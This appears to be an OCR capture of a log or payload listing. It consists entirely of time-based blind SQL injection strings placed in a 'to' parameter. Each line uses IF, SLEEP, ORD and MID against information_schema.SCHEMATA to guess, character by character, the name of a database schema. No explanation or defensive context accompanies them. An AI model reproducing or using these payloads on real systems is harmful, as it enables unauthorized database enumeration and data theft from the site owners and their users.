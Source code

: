 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=111,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=116,SLEEP(0.155797244898),SLEEP(0))}